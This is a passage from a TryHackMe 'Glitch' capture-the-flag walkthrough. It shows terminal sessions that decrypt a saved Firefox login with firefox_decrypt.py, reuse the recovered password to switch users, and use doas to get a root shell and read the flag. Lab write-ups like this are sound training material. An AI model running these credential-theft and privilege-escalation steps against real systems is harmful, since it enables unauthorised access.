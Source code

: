 ```tsx
┌──(kali㉿kali)-[~/TryHackMe/Glitch]
└─$ ls -la            
total 700
drwxr-xr-x  3 kali kali   4096 Jun 25 19:04 .
drwxr-xr-x 74 kali kali   4096 Jun 25 17:01 ..
drwxr-xr-x  4 kali kali   4096 Jan 27  2021 .firefox
-rwxr-xr-x  1 kali kali  37393 Jun 25 19:04 firefox_decrypt.py
```

Now use the tool to decrypt the folder

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Glitch]
└─$ python3 firefox_decrypt.py .firefox
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
2

Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
```

OK! We got the password of user `v0id` → Back to the target machine and become `v0id`

```tsx
$ su v0id
su v0id
Password: love_the_void

v0id@ubuntu:/var/web$ id
uid=1001(v0id) gid=1001(v0id) groups=1001(v0id)
```

# Privilege Escalation → root

Execute the `doas` again

```tsx
v0id@ubuntu:/var/web$ doas -u root /bin/bash
Password: love_the_void
root@ubuntu:/var/web# id
uid=0(root) gid=0(root) groups=0(root)
```

Navigate to the `/root` directory and get the flag

```tsx
root@ubuntu:/var/web# cd /root
cd /root
root@ubuntu:~# cat root.txt
cat root.txt
THM{diamonds_break_our_aching_minds}
```